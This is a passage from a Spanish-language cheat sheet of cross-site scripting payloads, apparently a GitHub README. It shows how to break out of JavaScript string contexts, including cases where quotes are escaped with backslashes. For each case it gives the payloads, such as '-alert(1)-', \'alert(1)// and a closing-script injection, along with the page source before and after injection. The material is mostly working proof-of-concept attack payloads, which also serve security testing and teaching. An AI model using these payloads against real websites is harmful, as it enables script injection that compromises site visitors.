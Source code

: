 - Después de ingresar la carga útil 

```html
<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```

7 - Se usa cuando la entrada aterriza en un bloque de script, dentro de un valor delimitado por una cadena

    '-alert(1)-'
    '/alert(1)//
    
- Ejemplo de código fuente 

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

- Después de ingresar la carga útil 

```html
<script>
    var sitekey = ''-alert(1)-'';
</script>
```

8 - Igual que el Número 7. Pero dentro de un valor delimitado por una cadena, pero las comillas se escapan con una barra invertida

    \'alert(1)//
    
- Ejemplo de código fuente 

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

- Si ingresamos el payload '-alert(1)-' será así 

```html
<script>
    var sitekey = '\'-alert(1)-\'';
</script>
```

Las comillas se escapan con una barra invertida, por lo que debemos bypassear

- Después de ingresar la carga útil 

```html
<script>
    var sitekey = '\\'alert(1)//';
</script>
```

